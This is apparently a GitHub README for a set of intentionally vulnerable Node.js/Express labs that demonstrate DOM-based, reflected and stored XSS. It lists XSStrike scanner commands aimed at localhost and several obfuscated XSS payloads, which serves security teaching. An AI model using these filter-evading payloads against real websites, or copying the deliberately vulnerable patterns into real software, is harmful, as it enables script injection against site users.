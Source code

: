 # Node-XSS-labs
Most of the XSS labs online are based on PHP backend. So I developed three simple labs to demonstrate XSS vulnerabilities (DOM-based, reflected and stored) on a Node.js server. The labs are tested with XSStrike for vulnerabilities. The labs are build on Javascript, ejs, Node.js and Express.

### DOM-based XSS

https://corbe30.github.io/Node-XSS-labs/dom_based_xss/

**Payload** : ```alert(1)```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/dom-based-xss.png) 

<br />

### Reflected XSS
**XSStrike Query** : ```python .\xsstrike.py -u "http://localhost:3000/?txt1=a"``` \
**Generated Payload** : ```<HtmL%0aONpoiNtereNteR%0d=%0d[8].find(confirm)%0dx>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss-xsstrike.png)

<br />

### Stored XSS
**XSStrike Query** : ```python .\xsstrike.py -u "http://localhost:3000/?txt1=a&txt2=a" -f default``` \
**Generated Payload** : ```'"</Script><Html Onmouseover=(confirm)()//<imG/sRc=l oNerrOr=(prompt)() x>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss-xsstrike.png)

<br />

# How to Run
1. Install dependencies with ```npm install```
2. Run server with ```node script.js```
